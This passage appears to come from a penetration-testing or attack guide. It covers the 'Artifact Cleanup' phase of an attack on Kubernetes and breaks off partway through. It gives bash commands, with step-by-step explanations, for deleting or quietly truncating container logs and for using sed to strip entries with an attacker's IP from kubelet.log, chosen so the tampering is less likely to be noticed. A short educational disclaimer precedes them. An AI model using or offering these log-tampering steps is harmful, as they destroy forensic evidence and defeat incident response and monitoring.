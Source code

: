 **Phase 2: Exploitation (Artifact Cleanup)**

*It's crucial to remember that manipulating logs can be illegal and unethical in real-world scenarios without proper authorization.  This section demonstrates techniques for educational purposes and penetration testing within authorized scopes.*

1.  **Deleting Container Logs Directly:**  Attempting to delete container logs directly (requires write access to the node's filesystem where the container runtime stores the logs - e.g., `/var/log/containers`).

    ```bash
    # Inside a compromised pod running with elevated privileges or on a compromised node

    # Example - delete logs for a specific container
    rm /var/log/containers/<container_name>_<namespace>_<pod_name>_<container_id>-log.json

    # Example - truncate logs instead of deleting (to be less conspicuous)
    truncate -s 0 /var/log/containers/<container_name>_<namespace>_<pod_name>_<container_id>-log.json
    ```

    *   **Explanation:** These commands directly manipulate the container log files on the node's filesystem. The `rm` command deletes the file entirely, while `truncate` empties the file's content.
    *   **Why:** Directly deleting or truncating logs removes evidence of the container's activities.  Truncating is often preferred to deletion as it is less likely to be immediately noticed.
    *   **Expected Output:** No output if successful (or an error message if the operation fails due to permission issues).  The targeted container log file will be either deleted or emptied.
    *   **Contributes to:** Eliminating container-level logs that might contain evidence of the attack.

2.  **Modifying Kubelet Logs (if possible - VERY difficult with modern deployments):**

    ```bash
    # Requires access to the kubelet log file and write permissions.

    # Back up the log file first (essential to avoid suspicion if the process crashes later)
    cp /var/log/kubelet.log /var/log/kubelet.log.bak

    # Attempt to edit the kubelet log file, removing entries related to the attacker's actions.  Use a tool like `sed` or `vi`.

    # Example: Remove lines containing a specific IP address:
    sed -i '/<attacker_ip_address>/d' /var/log/kubelet.log
